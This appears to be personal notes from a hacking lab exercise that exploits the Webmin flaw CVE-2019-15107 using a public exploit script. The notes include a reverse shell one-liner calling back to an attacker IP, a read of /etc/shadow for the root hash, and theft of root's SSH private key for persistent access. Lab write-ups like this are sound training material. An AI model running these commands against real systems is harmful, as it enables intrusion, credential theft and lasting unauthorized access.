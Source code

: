 `git clone https://github.com/MuirlandOracle/CVE-2019-15107`  

This creates a local copy of the exploit on our attacking machine. Navigate into the folder then install the required Python libraries:

`cd CVE-2019-15107 && pip3 install -r requirements.txt`  

If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:  
`sudo apt install python3-pip`  

The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. (Don't worry if you aren't familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through scripts before running them).  

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

`./CVE-2019-15107.py TARGET_IP`

![[Pasted image 20251009215841.png]]

- i used `sh -i >& /dev/tcp/10.250.180.2/1234 0>&1` to create a reverse shell

![[Pasted image 20251009222017.png]]

Now for a little post-exploitation!

What is the root user's password hash?
- Command : `cat etc/shadow`

![[Pasted image 20251009222223.png]]

You won't be able to crack the root password hash, but you **might be able to find a certain file that will give you consistent access to the root user account through one of the other services on the box.**
Hm...it should be something related to ssh cuz i rmb using the hash to login

What is the full path to this file?
Answer : /root/.ssh/id_rsa

![[Pasted image 20251009222537.png]]

![[Pasted image 20251009222708.png]]

Download the key (copying and pasting it to a file on your own Attacking Machine works), then use the command `chmod 600 KEY_NAME` (substituting in the name of the key) to obtain persistent access to the box.

![[Pasted image 20251009223019.png]]

We have everything we need for now. Let's move on to the next section: Pivoting!
